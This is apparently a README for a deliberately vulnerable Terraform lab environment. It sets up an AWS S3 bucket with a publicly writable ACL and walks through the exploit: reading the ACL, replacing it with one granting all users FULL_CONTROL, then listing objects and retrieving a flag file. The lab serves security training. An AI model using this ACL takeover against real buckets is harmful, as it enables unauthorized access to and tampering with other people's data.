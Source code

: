 # AWS S3 Bucket ACL writable vulnerability environment

English | [中文](./README_CN.md)

## Description

This is the scenario in which the AWS S3 bucket ACL is writable.

After you build an environment using Terraform, users can access S3 resources that are otherwise unreadable by modifying the Bucket ACL policy.

## Deployment Environment

Execute the following command in the container

```shell
cd /TerraformGoat/aws/s3/bucket_acl_writable/
```

Configure AWS Access Credentials

```shell
aws configure
```

> You can see the access key in the AWS [Console --> Security Credentials]

Deploy Vulnerable Environment

```shell
terraform init
terraform apply
```

> When the terminal prompts `Enter a value:`, enter `yes`

After the environment is set up, you can see the created Bucket at Outputs.

This Bucket has Bucket ACL read and write permissions.

## Vulnerability Utilization

List Object, return access denied

![image](../../../images/1652335945.png)

Attempt to read the Bucket's ACL policy

```shell
https://houxianxxxxx.s3.us-east-1.amazonaws.com/?acl
```

![image](../../../images/1652336104.png)

Try to use the PUT method to modify the ACL policy of the Bucket.

The original ACL policy:

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://acs.amazonaws.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>WRITE_ACP</Permission>
</Grant>
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://acs.amazonaws.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>READ_ACP</Permission>
</Grant>
```

New ACL Policy:

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://acs.amazonaws.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>FULL_CONTROL</Permission>
</Grant>
```

![image](../../../images/1652336299.png)

Try traversing the Object again, you can see that it can be traversed already, which means that the ACL policy just uploaded is in effect.

![image](../../../images/1652336374.png)

In the Bucket, the flag file is found.

```shell
https://houxianxxxxx.s3.us-east-1.amazonaws.com/flag1650859
```

![img](../../../images/1652336457.png)

Get the flag.

## Destroy the environment

```shell
terraform destroy
```
